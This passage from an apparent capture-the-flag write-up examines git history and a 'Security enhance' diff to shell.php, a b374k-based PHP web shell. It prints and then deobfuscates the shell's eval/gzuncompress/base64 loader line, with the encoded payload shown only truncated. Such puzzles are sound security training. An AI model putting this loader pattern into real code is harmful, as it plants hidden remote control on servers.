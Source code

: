 ```
commit 190507b3bd67dff13d168ffd0886f60e77b7d2fa
Author: DC <haxor@ekoparty.org>
Date:   Thu Sep 24 02:41:03 2020 +0000

    Security enhance

commit 71693af6f6a71b39e0e10375163daafe94e4af20
Author: DC <haxor@ekoparty.org>
Date:   Thu Sep 24 02:39:40 2020 +0000

    File creation

commit c95c2b60fadf178c1a3ac84c6c404a308e919987
Author: DC <haxor@ekoparty.org>
Date:   Thu Sep 24 02:38:45 2020 +0000

    Repo init
```
"Security Enhance?" With `git show 179e12491a2628c71bb854514f3b05cdf7cb546d` we can take a closer look at what that commit changed:
```
commit 179e12491a2628c71bb854514f3b05cdf7cb546d
Author: DC <haxor@ekoparty.org>
Date:   Thu Sep 24 03:02:21 2020 +0000

    Security enhance

diff --git a/shell.php b/shell.php
index ebd457e..c568771 100755
--- a/shell.php
+++ b/shell.php
@@ -6,5 +6,5 @@
        https://github.com/b374k/b374k

 */
-$GLOBALS['pass'] = "1e7a1d03e274e66e22bfabf2d8f4a0408970e354"; // sha1(md5(pass))
-$func="cr"."eat"."e_fun"."cti"."on";$b374k=$func('$x','ev'.'al'.'("?>".gz'.'un'.'com'.'pre'.'ss(ba'.'se'.'64'.'_de'.'co'.'de($x)));');$b374k("eNrs/Wm74jiyKAp/r19Br5O311qbzLTBgO3Kyuw2YDPPxgxddfPxbIMnPGK6+r
 ...
+$GLOBALS['pass'] = file_get_contents('../secret'); // sha1(md5(pass))
+$func="cr"."eat"."e_fun"."cti"."on";$b374k=$func('$x','ev'.'al'.'("?>".gz'.'un'.'com'.'pre'.'ss(ba'.'se'.'64'.'_de'.'co'.'de($x)));');$b374k("eNrs/Wm74jiyKAp/r19Br5O311qbzLTBgO3Kyuw2YDPPxgxddfPxbIMnPGK6+r9fyTZghjVkVe39nveeW/10LiyFQiEpFIoISaFf/uFoTuFDqz+qU/3Zvx5NWwoM+btvfzdsXnr8rfC1wLsuHz89yHvHsF3ZffhYePBl19Qt3oC/5TD9K9pWKLs+/CnxPi/wngx/65Ziw78mrydgluxHtruFPx3XFmXPk72H5y//+PYLpOSnMyWu7NmBCwAef/vXo4DhlW1CzYPGLdeuO6jQVk3dUFOtQcR2n9SWE1JtSuW91q3GEYGwG2QkK7g/ns1aWDfar
 ...
```
It looks like our passsword is probably put through md5 and then sha1 hashing then compared to `GLOBALS['pass']`, and this commit just switched from having the hash hardcoded to being in a file. The hash could still be the same one, just in a different place now. After that, it looks like there's a bit of obvuscated code, lets clean that up a bit:
```php
$GLOBALS['pass'] = file_get_contents('../secret'); // sha1(md5(pass))
$func="create_function";
$b374k=$func('$x','eval("?>".gzuncompress(base64_decode($x)));');
$b374k("eNrs/Wm74jiyKAp/r19Br5O311qbzLTBgO3Kyuw2YDPPxgxddfPxbIMnPGK6+r9fyTZghjVkVe39nveeW/10LiyFQiEpFIoISaFf/uFoT
 ...
```
So, the rest of the code is in this very long, compressed, base 64 encoded string. Since `gitdumper.sh` only got us the `.git` folder, we need to `git checkout` a commit to get our hands on some files. I ran `git checkout master` to make sure I was on the most recent commit to the master branch then `git stash` to recover the original state of that commit.
